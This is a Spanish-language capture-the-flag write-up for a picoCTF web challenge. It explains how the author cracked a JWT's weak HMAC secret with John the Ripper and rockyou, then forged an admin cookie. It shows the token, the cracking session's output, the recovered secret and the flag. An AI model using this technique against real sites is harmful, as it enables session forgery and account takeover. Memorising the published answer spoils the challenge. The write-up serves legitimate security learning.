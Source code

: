 ## Descripción 
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

## Datos de Acceso al Nivel
user: carlosof
password:

## Solución
- Ingresamos al link de la pagina, previamente y preferentemente para facilitar el trabajo debemos tener instalada una extensión llamada cookie editor.
- Nos loggamos con un nombre cualquiera, en mi caso Carlos.
- Revisamos las cookies que se han generado, debería aparecer una de jwt.
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2FybG9zIn0.ibA8ZjnNXLYfuOIQWln6-CmmzUhw-bsu3BivkwnNYDk`
- Ahora nos dirigimos a la pagina https://jwt.io/ ahí pegamos la cookie y sustituimos en el user (nuestro nombre) a `admin`, esto nos generara otra cookie diferente, que al momento de cambiarla en la pagina  y recargar nos cargara esto:
```
# Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```
- Esto se debe a que no podemos modificar la firma solo así como así, ya que desconocemos la password, así que eliminamos la cookie, recargamos la pagina y nos volvemos a loggear.
- Copiamos la cookie y hacemos lo siguiente en kali. 

```bash
┌──(kali㉿kali)-[~]
└─$ nano hash
                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ john    
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 64-bit x86_64 SSE2 AC]
Copyright (c) 1996-2021 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.
                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists 
amass  dirb  dirbuster  dnsmap.txt  fasttrack.txt  fern-wifi  john.lst  legion  metasploit  nmap.lst  rockyou.txt  sqlmap.txt  wfuzz  wifite.txt
┌──(kali㉿kali)-[~]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:05 DONE (2024-09-23 13:26) 0.1964g/s 1452Kp/s 1452Kc/s 1452KC/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 

```
- Ahora sabiendo que la palabra que se uso para firmar ese token es `ilovepico`  la cambiamos en JWT, copiamos la cookie, la pegamos en la pagina, recargamos y obtenemos la bandera.

`picoCTF{jawt_was_just_what_you_thought_44c752f5}`
## Notas Adicionales
- **John the Ripper** (comúnmente conocido como **John**) es una herramienta de recuperación de contraseñas. Su función principal es descifrar contraseñas a partir de hashes. John puede utilizar diferentes métodos, como ataques de diccionario, fuerza bruta y ataques de combinaciones, para intentar descubrir contraseñas.

## Referencias 
https://play.picoctf.org/practice/challenge/25
https://jwt.io/
https://www.openwall.com/john/
